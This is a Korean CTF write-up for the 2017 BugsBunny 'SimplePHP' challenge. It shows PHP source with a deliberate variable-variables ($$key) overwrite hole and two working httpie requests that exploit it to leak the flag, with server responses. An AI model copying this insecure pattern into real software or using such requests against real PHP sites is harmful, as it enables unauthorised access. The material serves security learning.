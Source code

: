 # [2017_BugsBunny] \[WEB] SimplePHP

### CODE

```php
<?php

include "flag.php";

$_403 = "Access Denied";
$_200 = "Welcome Admin";

if ($_SERVER["REQUEST_METHOD"] != "POST")
	die("BugsBunnyCTF is here :p...");

if ( !isset($_POST["flag"]) )
	die($_403);


foreach ($_GET as $key => $value)
	$$key = $$value;

foreach ($_POST as $key => $value)
	$$key = $value;


if ( $_POST["flag"] !== $flag )
	die($_403);


echo "This is your flag : ". $flag . "\n";
die($_200);

?>
```



### Exploit

extract() 함수와 비슷한 기능을 실행합니다. php 내부의 변수를 우리가 마음대로 조작할 수 있습니다.

#### 방식1 - 문자열 변수 조작

POST로 flag 값을 입력하면 모든 조건문을 통과한 후, flag를 출력해주는데 $_POST 변수를 처리하는 과정에서 그 값이 우리가 입력한 값으로 변하게 되어 원래의 flag 값을 알아낼 수가 없습니다 출력됩니다.

하지만 뒤에서 $_200 값을 출력해주기 때문에 미리 $\_200 값에 flag값을 미리 넣어두면 원래의 flag 값을 알아낼 수 있습니다

```
Anti-Vulnerability:tyro_heap DelspoN$ http -f POST http://34.253.165.46/SimplePhp/index.php?_200=flag flag=a
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Length: 62
Content-Type: text/html; charset=UTF-8
Date: Mon, 07 Aug 2017 08:38:16 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.18 (Ubuntu)

This is your flag : a
Bugs_Bunny{Simple_PHP_1s_re4lly_fun_!!!}
```

#### 방식2 - 배열 변수 조작

_403값과 _POST["flag"] 값을 조작하여 flag를 출력합니다.

```
Anti-Vulnerability:tyro_heap DelspoN$ http -f POST "http://34.253.165.46/SimplePhp/index.php?_403=flag&_POST[flag]=bbb" flag=aaa
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Length: 40
Content-Type: text/html; charset=UTF-8
Date: Mon, 07 Aug 2017 08:35:53 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.18 (Ubuntu)

Bugs_Bunny{Simple_PHP_1s_re4lly_fun_!!!}
```

